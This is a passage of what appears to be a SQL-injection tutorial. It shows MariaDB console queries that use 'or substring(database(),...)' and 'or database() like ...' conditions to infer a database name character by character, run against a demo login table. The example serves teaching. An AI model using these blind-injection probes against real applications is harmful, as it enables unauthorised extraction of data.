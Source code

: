 ```
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),4,1)="k";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),1,4)="dark";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.001 sec)
```

**Getting the name of the database using like**

```
MariaDB [dark]> select * from login where id=2 or database() like "%b%";
Empty set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%ad%";
Empty set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%rk%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%da%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "%rk";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "da%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "d_rk";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
```